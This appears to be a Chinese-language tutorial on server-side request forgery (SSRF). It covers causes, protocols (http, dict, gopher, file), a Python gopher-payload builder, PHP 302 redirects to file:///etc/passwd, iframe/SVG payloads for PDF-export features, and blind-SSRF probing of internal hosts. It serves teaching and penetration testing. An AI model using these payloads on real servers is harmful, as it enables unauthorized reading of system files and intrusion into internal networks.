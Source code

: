 # SSRF

SSRF漏洞是指攻击者欺骗服务器发起网络请求，可能导致对内部系统、外部服务或本地资源的未授权访问。

## 漏洞成因：

web服务器经常需要从别的服务器获取数据，比如文件载入、图片拉取、图片识别等功能，

如果获取数据的服务器地址可控，攻击者就可以通过web服务器自定义向别的服务器发出请求。

因为web服务器常搭建在DMZ区域，因此常被攻击者当作跳板，向内网服务器发出请求。

> DMZ区域
>
> DMZ（Demilitarized Zone）是网络安全中的一个术语，它指的是位于内部网络和外部网络之间的一个隔离区域。
>
>DMZ提供了一个额外的安全层，用于分离和保护内部网络中的敏感系统和数据免受来自外部网络的攻击。
>
> 在一个典型的网络架构中，DMZ通常位于防火墙内部，同时连接着外部网络和内部网络。
>
> DMZ中放置了一些对外服务，如Web服务器、邮件服务器等。这些对外服务需要与外部网络进行通信，但又不能直接接触内部网络中的敏感系统和数据。

## 协议

ssrf常用的协议：http/https、dict、file、gopher、sftp、ldap、tftp

### http/https

当ssrf限制只能使用http或https协议，可通过Header函数绕过限制。在vps创建一个302.php的文件，根据需求设置协议类

举例

    <?php
    header("Location: file:///etc/passwd");
    ?>
    
    <?php
    header("Location: dict://127.0.0.1:6666/info");
    ?>
    
    <?php
    header("Location: gopher://127.0.0.1:6666/info");
    ?>

### gopher

> Gopher是Internet上非常有名的信息查找系统，它将Internet上的文件组织成某种索引，很方便将用户从Internet的一处带到另一处。
>
> 但WWW出现以后，就很少使用Gopher了

#### gopher使用限制

    PHP     --write-curlwrappers且php版本至少为5.3
    
    Java    小于JDK1.7
    
    Curl    低版本不支持
    
    Perl    支持
    
    ASP.NET 小于版本3

#### 格式

    gopher://<host>:<port>/<path>_后接TCP数据流
    
> gopher默认端口是70
>
> 如果发起post请求，回车换行需要使用%0d%0a，如果多个参数，参数之间的&也需要进行URL编码

#### 利用gopher协议发送POST请求

脚本举例

    import urllib.parse
    test =\
    """POST / HTTP/1.1
    Host: 127.0.0.1:8000
    Content-Typr: application/x-www-form-urlencoded
    Content-Length: 11
    
    name=xxx
    """  
    #以上内容放置请求包内容，注意后面一定要有回车，回车结尾表示http请求结束
    tmp = urllib.parse.quote(test)
    new = tmp.replace('%0A','%0D%0A')
    result = '_'+new
    print(result)

除了发出HTTP请求外，gopher协议还常被用来攻击内网redis、Zabbix、FastCGI、mysql等服务

利用工具：

    https://github.com/tarunkant/Gopherus

## 利用

所有需要输入url的地方都可以尝试ssrf，将url改成dnslog地址，验证请求IP是否来自web服务器：

* 远程图片拉取
* xls，doc等文件预览
* 头像加载
* 其他网站的访问截图

ssrf漏洞可分为有回显型和无回显型

### 回显型

有回显型ssrf可以直接通过页面加载出目标资产，可先尝试加载http://www.baidu.com 页面确认有ssrf，

如果成功的话，可进一步将百度换成内网IP，通过fuzz扫描内网资产。

#### 场景

##### SVG SSRF

由于 SVG 的功能十分丰富，所以能够处理SVG 的服务器就很有可能遭受到 SSRF、XSS、RCE 等的攻击，特别是在没有禁用一些特殊字符的情况下。

svg攻击payload

    https://github.com/allanlw/svg-cheatsheet
    
##### 导出功能SSRF

有些网站存在功能，能够将一些将数据分析的表格导出为pdf或者图片，当POST数据包中，以html文件内容作为传输，则这里可能存在ssrf漏洞

我们将html内容修改为

    <svg><iframe src="攻击者服务器ip" width="800" height="850"/></svg>
    
通过攻击者服务器进行302重定向

    <iframe+src=攻击者服务器302重定向的地址">
     
    原理：
    通过header设置Location: file:///etc/passwd
    
常规payload

    <iframe src="file:///etc/password">
    document.location
    <img src=x onerror="document.write(document.location)"/>
    <img src=x onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
    <link rel=attachment href="file:///etc/passwd">
    <img src=x onerror=document.write(window.location)>
  

### 无回显型

无回显型ssrf的检测需要先配合dnslog平台，测试dnslog平台能否获取到服务器的访问记录，如果没有对应记录，也可能是服务器不出网造成的，

利用时可以通过请求响应时间判断内网资产是否存在，

然后再利用内网资产漏洞（比如redis以及常见可RCE的web框架）证明漏洞的有效性。

或者可以尝试寻找内网的Confluence, Jenkins等资产，这篇文章是专门介绍bind ssrf利用技巧的，可以作为参考：

    https://github.com/assetnote/blind-ssrf-chains
